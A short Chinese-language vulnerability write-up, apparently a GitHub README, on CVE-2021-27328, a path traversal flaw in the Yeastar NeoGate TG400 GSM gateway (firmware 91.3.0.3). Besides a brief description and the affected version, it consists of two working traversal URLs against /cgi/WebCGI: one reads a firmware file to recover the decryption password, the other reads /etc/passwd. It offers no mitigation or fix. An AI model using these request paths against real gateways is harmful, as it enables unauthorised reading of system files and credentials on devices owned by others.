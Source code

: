 # Yeastar-NeoGate
朗视 Yeastar NeoGate TG400 路径遍历漏洞CVE-2021-27328

漏洞描述

朗视 TG400 GSM 网关存在路径遍历 ，攻击者可以通过漏洞获取敏感信息
 
--------------------------------------------------------------------------------
 
漏洞影响

朗视 TG400 GSM 网关91.3.0.3

获取固件解密密码

/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect

/etc/passwd：

/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
